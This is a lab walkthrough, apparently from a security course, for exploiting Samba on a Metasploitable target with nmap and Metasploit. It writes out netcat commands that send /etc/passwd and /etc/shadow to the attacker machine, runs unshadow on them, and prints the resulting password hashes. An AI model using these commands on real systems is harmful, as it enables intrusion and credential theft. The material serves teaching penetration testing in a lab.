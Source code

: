 # Lab 7 - Exploiting Samba and Exfiltrating Data 

Target IP: 172.16.0.22
Target: Metasploitable

1. Run nmap against the metasploitable machine using the following command.

	`sudo nmap -sV <metasploitable IP> -vvv` (make a note of open ports and services).

	make a note of what port Samba is running.

	`$ sudo nmap -sV 172.16.0.22 -vvv | grep Samba
	139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`


2. On your Kali machine launch the metasploit framework.

3. Search for Samba exploits based on version identified in nmap results.

	`msf6> search type:exploit name:samba`

4. Select the exploit matching the version (note that the search option may not provide a lot of information so you will likely have to try multiple exploits to make it work).

5. Select the exploit by using command below.

	`use exploit/xxxxx`

6. Set required options by using set command (hint RHOSTS, and possibly payload).

7. Execute the exploit (this should open a session on the exploited host).

8. Open another Kali terminal window.

9. Launch netcat in a listen mode and redirect output to a file as shown.

	`nc -l -p 4567 > passwd.txt`

10. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/passwd` file.

	`cat /etc/passwd | nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat passwd.txt` 

11. Start another `netcat` command but redirect the contents to `shadow.txt` instead of `passwd.txt` (use the same command as in Step 9 just change `passwd.txt` to `shadow.txt`).

12. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/shadow file`.

	`cat /etc/shadow| nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat shadow.txt`

13. On your kali box combine the contents of `passwd.txt` and `shadow.txt` using the command below.

	`unshadow passwd.txt shadow.txt > user_logins.txt` 

14. What is the content of the combined `user_logins.txt` file (include screenshot).

	`root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:!:100:101::/var/lib/libuuid:/bin/sh
dhcp:*:101:102::/nonexistent:/bin/false
syslog:*:102:103::/home/syslog:/bin/false
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
sshd:*:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:*:105:113::/var/cache/bind:/bin/false
postfix:*:106:115::/var/spool/postfix:/bin/false
ftp:*:107:65534::/home/ftp:/bin/false
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:!:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:*:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:*:111:65534::/:/bin/false
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
telnetd:*:112:120::/nonexistent:/bin/false
proftpd:!:113:65534::/var/run/proftpd:/bin/false
statd:*:114:65534::/var/lib/nfs:/bin/false`

